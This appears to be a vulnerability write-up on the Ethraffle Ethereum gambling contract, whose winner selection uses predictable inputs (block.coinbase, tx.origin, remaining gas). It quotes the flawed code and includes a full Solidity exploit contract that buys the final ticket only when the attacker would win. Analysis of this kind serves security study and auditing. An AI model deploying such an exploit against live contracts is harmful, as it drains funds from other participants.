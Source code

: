 Ethraffle
======
https://etherscan.io/address/0x9A3dA065e1100a5613dc15b594f0F6193B419E96#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            tx.origin,
            remainingGas
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(6 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, the seed of randomness, `block.coinbase` and `remainingGas`, can be accessed before the transaction, so the attacker can exploit this vulnerability to always win in the game.

Exploit
------
    contract Exploit{
    
        Ethraffle target;
        
        uint constant totalTickets = 6;
        
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket();
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, msg.sender, msg.gas);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
                
                if(winningNumber == totalTickets){          //if we can win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
    
    contract Ethraffle
    {
        function buyTickets() payable public;
        uint public nextTicket;
    }
